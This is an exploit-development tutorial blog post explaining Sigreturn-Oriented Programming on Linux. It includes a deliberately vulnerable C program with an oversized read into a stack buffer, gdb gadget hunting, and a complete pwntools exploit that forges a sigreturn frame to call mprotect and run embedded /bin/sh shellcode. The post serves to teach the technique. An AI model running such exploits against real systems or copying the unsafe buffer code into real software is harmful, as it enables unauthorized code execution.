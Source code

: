 ```yaml
---
title: "Sigreturn-Oriented Programming (SROP)"
date: 2018-11-04T11:23:06+01:00
draft: false
index: true
tags: ["exploit", "srop", "linux"]
categories: ["exploit development", "security"]
comments: true
highlight: true
---
```


Sigreturn-oriented programming (SROP) is a exploit development technique used to execute code, this attack employs the same basic assumptions behind the return-oriented programming (ROP) technique.

<!--more-->
### TL;DR
When a signal occurs, the kernel “pauses” the process’s execution in order to jump to a signal handler routine. In order to safely resume the execution after the handler, the context of that process is pushed/saved on the stack (registers, flags, instruction pointer, stack pointer etc). When the handler is finished, `sigreturn()` is being called which will restore the context of the process by popping the values off of the stack. That’s what is being exploited in that technique.

### Differences from ROP
SROP exploits are usually portable across different binaries with minimal or no effort and allow easily setting the contents of the registers, which could be non-trivial or unfeasible for ROP exploits if the needed gadgets are not present. Moreover, SROP requires a minimal number of gadgets (ROP) and allows constructing effective shellcodes by chaining system calls.

### Sigcontext Structure
The attack works by putting on the call stack a forged `sigcontext structure` and then overwriting the return address with the location of a gadget that allows the attacker to call the `sigreturn()`
{{< figure src="/img/Sigreturn-oriented-programming-SROP/sigcontext_structure.jpg" width="60%" >}}

>  The sigcontext structure length is 248 Bytes, ignore the first 8 Byte `rt_sigreturn()`

### Attacks

#### ROP Gadget
In order to achieve this attack we need first ROP gadgets to do :
```assembly
# x64
mov eax, 0x0f; syscall; ret

# x86
mov eax, 0x77; int 0x80; ret

```
#### Example : srop.c
This is our example to perform SROP attack.

```c
#include <stdio.h>
#include <stdlib.h>
// gcc srop.c -o srop -no-pie -fno-stack-protector
void syscall_(){
       __asm__("syscall; ret;");
}

void set_rax(){
       __asm__("movl $0xf, %eax; ret;");
}

int main(){
       // ONLY SROP!
       char buff[100];
       printf("Buff @%p, can you SROP?\n", buff);
       read(0, buff, 5000);
       return 0;
}
```
#### Finding The Crash
```shell
root@kali:~/srop# python -c 'print "A" * 120 + "BBBB"' | ./srop
Buff @0x7fff7f78eb30, can you SROP?
Segmentation fault

root@kali:~/srop# dmesg | tail
[  258.498005] IPv6: ADDRCONF(NETDEV_CHANGE): eth0: link becomes ready
[  264.546090] e1000: eth0 NIC Link is Down
[  268.579755] e1000: eth0 NIC Link is Up 1000 Mbps Full Duplex, Flow Control: None
[ 2196.793909] srop[2120]: segfault at 7f0a42424242 ip 00007f0a42424242 sp 00007fff7f78ebb0 error 14

```
As we can see the rip offset to overwrite will be at 120.

#### Finding Gadgets

```shell
root@kali:~/srop# gdb ./srop -q
Reading symbols from ./srop...(no debugging symbols found)...done.
gdb-peda$ disassemble syscall_
Dump of assembler code for function syscall_:
   0x0000000000401132 <+0>:     push   rbp
   0x0000000000401133 <+1>:     mov    rbp,rsp
   0x0000000000401136 <+4>:     syscall
   0x0000000000401138 <+6>:     ret    
   0x0000000000401139 <+7>:     nop
   0x000000000040113a <+8>:     pop    rbp
   0x000000000040113b <+9>:     ret    
End of assembler dump.
gdb-peda$ disassemble set_rax
Dump of assembler code for function set_rax:
   0x000000000040113c <+0>:     push   rbp
   0x000000000040113d <+1>:     mov    rbp,rsp
   0x0000000000401140 <+4>:     mov    eax,0xf
   0x0000000000401145 <+9>:     ret    
   0x0000000000401146 <+10>:    nop
   0x0000000000401147 <+11>:    pop    rbp
   0x0000000000401148 <+12>:    ret    
End of assembler dump.
gdb-peda$

```
As we can see we have what we want to setup the stack for Sigreturn() syscall.

#### Exploit
```python
#!/usr/bin/python
from pwn import *

context.clear(arch="amd64")
p = process("./srop")

# ENTRIES : ROP gadgets
syscall_ret = 0x0401136
mov_rax_15_ret = 0x0401140
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# Leak
buff_leak = p.recv()
stack_leak = buff_leak[6:17] + "000"
stack_addr = int(stack_leak, 16)
shellcode_addr = int(buff_leak[6:20], 16)
p.info("Stack at : " + str(hex(stack_addr)))
p.info("Shellcode at : " + str(hex(shellcode_addr)))

# Exploit
payload = shellcode
payload += "A" * (120-len(shellcode))
payload += p64(mov_rax_15_ret)
payload += p64(syscall_ret)

frame = SigreturnFrame(kernel="amd64") # CREATING A SIGRETURN FRAME
frame.rax = 10 # MPROTECT SYSCALL
frame.rdi = stack_addr # base address
frame.rsi = 1000 # size
frame.rdx = 7 # SET RDX => RWX PERMISSION
frame.rsp = shellcode_addr + len(payload) + 248 # WHERE 248 IS SIZE OF FAKE FRAME!
frame.rip = syscall_ret # SET RIP TO SYSCALL ADDRESS
payload += str(frame)
payload += p64(shellcode_addr) # WHERE IT GOING TO RETURN ( shellcode )

# Sending Payload
p.sendline(payload)

p.interactive()
```
> Please leave comments bellow if you have any additional information or any question ?

#### Download: ####
* [srop.zip](/files/Sigreturn-oriented-programming-SROP/srop.zip)

#### Sources: ####
* [wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming)
* [0x00sec](https://0x00sec.org/t/srop-signals-you-say/2890)
</br>

